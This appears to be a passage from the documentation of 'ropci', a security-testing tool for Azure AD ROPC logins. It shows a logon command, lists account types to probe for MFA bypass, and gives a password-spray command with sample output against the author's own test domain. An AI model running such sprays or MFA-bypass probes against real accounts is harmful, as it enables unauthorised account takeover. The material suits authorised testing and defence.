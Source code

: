 There are a couple of things to explore, including testing:
* **Your own user account**: Users hopefully have MFA enforced.
* **Service Accounts**: A common angle for MFA bypasses.
* **AAD only accounts**: Test for AAD only accounts (important, but not limited to federation scenarios where MFA is configured at the federated identity provider)

Let's take a look at this example:

```
$ ./ropci auth logon -u alice@wunderwuzzi.net -P
Password: 
Succeeded. Token written to .token.
```

* Use `-u` for testing different accounts (without having to update the configuration file).
* The `-P` argument means that the tool will prompt fo the password that way it's not on the command line.

That's the basic auth/testing mechanism.

# Password Spraying

ropci also comes with the ability to perform an ROPC based password spray.

```
./ropci auth spray --users-file users.list --passwords-file passwords.list -o result --wait 60 --wait-try 10 
Attempts: 12 for ClientID d3590ed6-52b3-4102-aeff-aad2292ab01c

Attempt 0001: alice@wunderwuzzi.net                     test1242355                     invalid username or password
Attempt 0002: tom@wunderwuzzi.net                       test123                         invalid username or password
Attempt 0003: doesnotexist@wunderwuzzi.net              test1242355                     account does not exist
Attempt 0004: tom@wunderwuzzi.net                       test1242355                     invalid username or password
Attempt 0005: tom@wunderwuzzi.net                       Sommer2022!                     invalid username or password
Attempt 0006: doesnotexist@wunderwuzzi.net              Sommer2022!                     account does not exist
Attempt 0007: alice@wunderwuzzi.net                     test                            invalid username or password
Attempt 0008: alice@wunderwuzzi.net                     test123                         invalid username or password
Attempt 0009: doesnotexist@wunderwuzzi.net              test123                         account does not exist
Attempt 0010: alice@wunderwuzzi.net                     Sommer2022!                     success
Attempt 0011: doesnotexist@wunderwuzzi.net              test                            account does not exist
Attempt 0012: tom@wunderwuzzi.net                       test                            invalid username or password
```
